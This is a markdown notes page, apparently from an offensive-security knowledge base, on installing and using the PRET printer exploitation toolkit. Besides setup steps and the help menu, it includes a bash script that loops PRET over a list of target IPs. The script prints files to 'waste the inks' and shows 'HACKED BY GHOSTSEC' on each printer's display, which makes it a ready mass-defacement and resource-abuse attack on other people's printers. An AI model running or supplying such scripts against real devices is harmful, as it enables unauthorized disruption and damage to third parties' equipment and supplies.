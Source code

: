 # PRET

## 01 - Setup

### 1.1 - Dependencies

```
$ sudo apt install -y python3-colorama python3-pysnmp4 imagemagick ghostscript
```

### 1.2 - Install PRET

```
$ git clone https://github.com/RUB-NDS/PRET
```

## 02 - Help Menu

```
$ ./pret.py <printer_target_IP> pjl

<printer_target_IP>:/> help

Available commands (type help <topic>):
=======================================
append  delete    edit    free  info    mkdir      printenv  set        unlock
cat     destroy   env     fuzz  load    nvram      put       site       version
cd      df        exit    get   lock    offline    pwd       status
chvol   disable   find    help  loop    open       reset     timeout
close   discover  flood   hold  ls      pagecount  restart   touch
debug   display   format  id    mirror  print      selftest  traversal
```

## 03 - Usage

In this case we are connecting to the printer that is a PostScript printer language.

```
$ ./pret.py <IP> ps
```

Lastly you can connect to local USB printers.

```
$ ./pret.py /dev/usb/lp0 pjl
```

### 3.1 - Automated

A short script to keep spamming by printing files to waste the inks.

```bash
#!/bin/bash

ips="${1}"
filename="${2}"

while read -r line
do
    ip="${line}"
    ./pret.py ${ip} pjl -q -i "${filename}"
done < "${ips}"
```

```
$ cat > pret_commands.txt << EOF
print ./message-by-ghostsec.txt
display "HACKED BY GHOSTSEC"
quit
EOF

$ chmod +x spam_print.sh

$ ./spam_print.sh ip_targets.txt pret_commands.txt
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures Phases/A - Information Gathering/0x02 - Active Fingerprinting/Network Ports/Internet of Things/Printers|Active Fingerprinting: Printers]]

### Github

- [PRET](https://github.com/RUB-NDS/PRET)
